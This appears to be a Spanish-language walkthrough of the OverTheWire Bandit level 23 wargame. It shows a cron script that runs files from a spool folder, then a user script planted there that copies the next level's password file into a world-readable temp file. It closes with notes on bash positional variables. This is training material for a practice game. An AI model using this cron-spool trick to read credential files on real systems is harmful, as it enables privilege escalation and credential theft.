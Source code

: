 - Primero leemos el contenido del .sh para ver que deberiamos hacer para resolver el ejercicio
```bash
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo || exit 1
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -rf ./$i
    fi
done
```

- Creamos un directorio temporal para poder trabajar con mktemp -d 
- Tambien podemos crear una variable que me diga la direccion de mi carpeta temporal con dir_name=$(mktemp -d)

```bash
bandit23@bandit:/var/spool/bandit24/foo$ echo $dir_name 
/tmp/tmp.xcxPmN4cmS
```

- Creamos un script.sh para poder trabajar y damos permisos al archivo y la carpeta para que otros puedan escribir y leer
```bash
bandit23@bandit:/tmp/tmp.xcxPmN4cmS$ chmod +x script.sh
bandit23@bandit:/tmp/tmp.xcxPmN4cmS$ chmod o+wx /tmp/tmp.xcxPmN4cmS/
```

- En el archivo .sh escribimos lo siguiente
```bash
bandit23@bandit:/tmp/tmp.xcxPmN4cmS$ cat script.sh 
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/tmp.xcxPmN4cmS/bandit24_password.log
chmod o+r /tmp/tmp.xcxPmN4cmS/bandit24_password.log
```

- Luego copiamos el archivo al directorio que nos da el enunciado y nos podemos crear una carpeta para copiarlo en su interior
```bash
bandit23@bandit:/tmp/tmp.xcxPmN4cmS$ cp script.sh /var/spool/bandit24/foo/example
```


[$0]: Representa el nombre del script que se invocó desde la terminal.
[$1]: Es el primer argumento desde la línea de comandos.
[$2]: Es el segundo argumento desde la línea de comandos y así sucesivamente.
[$#]: Contiene el número de argumentos que son recibidos desde la línea de comandos.
[$*]: Contiene todos los argumentos que son recibidos desde la línea de comandos, guardados todos en la misma variable.